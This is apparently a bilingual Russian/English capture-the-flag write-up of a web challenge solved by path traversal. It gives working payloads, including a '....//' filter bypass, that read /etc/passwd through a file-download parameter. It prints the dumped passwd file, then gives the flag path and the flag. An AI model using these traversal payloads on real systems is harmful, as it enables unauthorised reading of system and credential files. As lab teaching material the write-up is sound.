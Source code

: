 # Opener

> Кажется, в этой функции передачи картинок что-то не так...

---

> There seems to be something wrong with this picture transfer function...

## Решение / Solution

Каждая загрузка страницы показывает новую картинку. Можно сразу приступить к рассматриванию
исходного кода *(фрагмент воссоздан по памяти)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

Естественным решением данной задачи является Path (Directory) Traversal Attack. Для этого попытаемся
попробовать достучаться до хорошо знакомого `/etc/passwd`.

```url
/files?file=/../../../../etc/passwd
```

Данный путь не работает. Были конечно сомнения, что это не тот эксплоит, но стоило попробовать еще
покопаться. Используя [методы предложенные HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
был получен данный путь:

```url
/files?file=/....//....//....//....//etc/passwd
```

В каждом `....//` сервер находит `../` (`..(../)/`), после удаления оставляя `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Дальше ручным перебором (не лучшее решение со стороны автора задания) получился путь к флагу:

```url
/files?file=/....//flag.txt
```

Флаг:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```

---

Every page load shows a new image. Let's instantly begin investigating the source code
*(code fragment is recreated by memory)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

A natural solution of this task is Path (Directory) Traversal Attack. For this let's try to knock at
the well-known `/etc/passwd` file.

```url
/files?file=/../../../../etc/passwd
```

This path did not work. There were some doubts whether this is the correct exploit, but it was worth
investigating a bit more. Using [methods suggested by HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
following path has been constructed:

```url
/files?file=/....//....//....//....//etc/passwd
```

In every `....//` server finds `../` (`..(../)/`), after deleting it leaves `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Next a manual brute-force (not the best solution by the task author) gave a following path:

```url
/files?file=/....//flag.txt
```

Flag:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```
